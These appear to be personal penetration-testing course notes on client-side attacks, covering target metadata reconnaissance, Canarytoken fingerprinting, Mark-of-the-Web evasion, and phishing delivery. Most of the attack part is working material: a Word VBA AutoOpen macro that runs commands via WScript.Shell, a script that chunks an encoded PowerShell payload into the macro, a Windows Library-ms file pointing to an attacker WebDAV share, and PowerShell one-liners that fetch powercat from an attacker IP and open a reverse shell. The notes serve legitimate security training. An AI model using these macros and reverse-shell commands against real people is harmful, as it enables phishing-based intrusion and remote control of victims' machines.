 Client side attacks

traditional attack model: 
enumerate the accessible machines and attempt to exploit exposed services

Target Reconnaissance

inspection of metadata tags of publically avaliable documents associated with the target organization

author, creation date, name and version of softwware os 

gobuster with -x for file extensions on target's web site

display metadata of files
exiftool
-a to display duplicated tags
-u to display unknown tags 


Client Fingerprinting

obtain os and browser info from a target in a non routable internal net

canarytokens: a free web service that generates a link with an embedded token 

when target opens link in browser, we get info about their browser, IP, and OS

web page allows up to select the kind of token we want to create, must enter email to get alerts of the token or provide a webhook url

Manage this token for settings of the token

History shows all visitors that clicked the token link and the info of the system

upper half of the detailed view shows info of location and attempts to determine org name

user agent sent by browser is also displayed, but it can be modded so not really reliable

we can also embed Canarytoken in Word documents or PDF, image can be viewed when opened


Exploiting Ms office

Preparing attack

email providers and spam filter filter out all MS doc by default, must use pretext

MOTW is not added to files on FAT32 formatted devices

it is possible to avoid getting a file flagged with MOTW by providing it in container files like 7zip, ISO and IMG


Leveraging Microsoft Word Macros

client side vectors: dynamic data exchange and object linking and embedding no longer works

create a blank work doc with .doc, no docx. .docm also works

choose current document from the drop down menu in the Macro dialog window

View tab from the menu to create Macro

we leverage ActiveX Objects which provide access to underlying operating system commands. we use WScript through the Windows Script Host Shell object

Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    CreateObject("Wscript.Shell").Run Str
End Sub


IEX(New-Object System.Net.WebClient).DownloadString('http://<myip>/powercat.ps1');powercat -c <myip> -p 4444 -e powershell
this grabs powercat and exr pwoershell from my machine


str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
this python command's output need to be shoved between dim and create object


Obtaining Code Execution via Windows Libary Files

containers for user content, conenct users with data stored in remote locations like web services

.Library-ms

2 stagees

1: create windows library file connecting to a WebDAV share we own

victim recevives .Library-ms via social engineering, we provide a payload in the form of a .lnk shortcut file for second stage exe 

wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav

we must use visual studio code to create the Libary file

save the file as config.Library-ms

Lirary files are written in xml and in 3 parts

Library properties, General library information and Library location

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.164</url>
            </simpleLocation>
            </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>

2. powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.164:8000/powercat.ps1');
powercat -c 192.168.45.164 -p 4444 -e powershell"

this is the command we'll use in the create a short cut expliot as a payload

we'll create a short cut on the desktop and paste the above ps commadn

smbclient //192.168.50.195/share -c 'put config.Library-ms' 
if diliverying via smb instead of normal email

.lnk file will be tagged with the Mark of the Web when exe in explorer

remember to check -x pdf, txt in gobuster even if 80 is 404
